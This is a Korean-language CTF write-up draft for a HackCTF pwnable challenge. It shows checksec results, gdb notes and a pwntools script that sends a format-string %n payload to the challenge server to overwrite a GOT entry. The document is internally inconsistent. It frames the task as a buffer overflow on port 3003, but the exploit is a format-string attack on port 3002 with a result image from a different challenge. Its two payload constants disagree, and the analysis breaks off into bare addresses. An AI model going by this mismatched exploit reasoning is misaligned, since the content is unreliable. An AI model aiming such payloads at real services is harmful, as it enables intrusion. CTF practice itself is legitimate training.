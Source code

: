 ```yaml
---
title:  "[HackCTF] 내 버퍼가 흘러넘친다! 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: false
---
```

[HackCTF] 내 버퍼가 흘러넘친다! 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/basic_bof-2-1.png)
```
Get Input
Get Input
```

- URL: [ctf.j0n9hyun.xyz/challenges#내%20버퍼가%20흘러넘친다!!!](https://ctf.j0n9hyun.xyz/challenges#내%20버퍼가%20흘러넘친다!!!)
- 요약: `prob1`, `nc ctf.j0n9hyun.xyz 3003` 으로부터 BOF를 통해 flag 찾기

# File Format
![](/assets/HCTF/basic_bof-2-0.png)
![](/assets/HCTF/basic_bof-2-3.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled|
|NX|disabled|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/basic_bof-2-2.png)

우선 `gdb-peda`를 통해 `main` Func를 들여다 보면 BOF 문제여서 눈에 띄는 몇가지가 있다.

`0x080484ce`에 무척 수상하고 적절한(?) `0x14`가 존재 한다.

그리고 `gets`와 `read` Func를 통해 값을 입력 받는 부분이다. `read` 함수의 3번째 인자가 `0x32` 라는 값이 있다. 하지만 `gets`를 보면 별 다른 길이 관련 인자가 없다. 이 부분을 통해 "**배열이 50으로 선언된게 아니라면 BOF가 터지겠다**" 라는 생각을 통해 접근.

우선 아직 확신이 서질 않아 iDEA로 이동하여 확인 해본다.

0x804a060 0xffffd4e4

# Exploit Scenario
```
# p32: 4 Byte packing
payload = p32(0x804a00c) + "%13451096x%n"
```

# Exploit Code
```
from pwn import *
context.log_level = "DEBUG"

p = remote("ctf.j0n9hyun.xyz",3002)
payload = p32(0x804a00c) + "%134514096x%n"

p.sendline(payload)
p.interactive()
```

# Result
![](/assets/HCTF/basic_fsb-12.png)
